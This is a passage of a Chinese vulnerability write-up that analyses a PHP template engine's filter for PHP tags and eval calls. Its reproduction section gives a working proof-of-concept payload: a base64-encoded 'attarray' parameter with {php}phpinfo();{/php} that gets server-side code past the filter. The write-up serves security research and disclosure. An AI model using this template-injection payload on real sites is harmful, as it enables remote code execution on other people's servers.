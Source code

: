 ```php
                    $valNew = preg_replace("/^eval(\s*)\(/i", 'intval(', $valNew);
                    $valNew = "{php}{$valNew}{/php}";
                    $content = str_ireplace($val, $valNew, $content);
                }
            }
        } else if (false !== strpos($content, '<?php')) { // 针对原生php语法处理
            $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);
            $this->config['tpl_deny_php'] && $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
        }
    }
    // end

    // PHP语法检查
    if ($this->config['tpl_deny_php'] && false !== strpos($content, '<?php')) {
        if (config('app_debug')) { // 调试模式下中断模板渲染 by 小虎哥
            throw new Exception('not allow php tag', 11600);
        } else { // 运营模式下继续模板渲染 by 小虎哥
            echo(lang('not allow php tag'));
        }
    }
    return;
}
```

* 4 Line: 将模板中php短标签转换为
* 21 Line: 判断传入的`$content`中是否包含了{php}
* 22 Line: 使用正则表达式匹配出`$content`中所有包含了`“{php}任意内容{/php}”`的标签
* 23 Line: 使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给`$matchs`否则将空数组赋给`$matchs`
* 24 Line: 判断`$matchs`不为空
* 25 Line: 将`$matchs`使用foreach循环遍历
* 26 Line: 将$val中的“{/任意空白字符php}”替换为空并赋给$valnew
* 27 Line: 将$valnew中的`“多个或零个0-9A-Za-Z_eval(”`替换为`“intval(”`
* 28 Line: 将$valnew中的“开始为eval任意空白字符(”替换为`“intval(”`
* 29 Line: 将字符串`“{php}{$valNew}{/php}”`赋给`$valnew`
* 30 Line: 将`$content`中的`$val`替换为$valNew

### 漏洞复现

Payload:


```
attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php}
```

![](images/15890227306973.png)


Payload生成方式:


```
base64_encode(jsonstring)
```
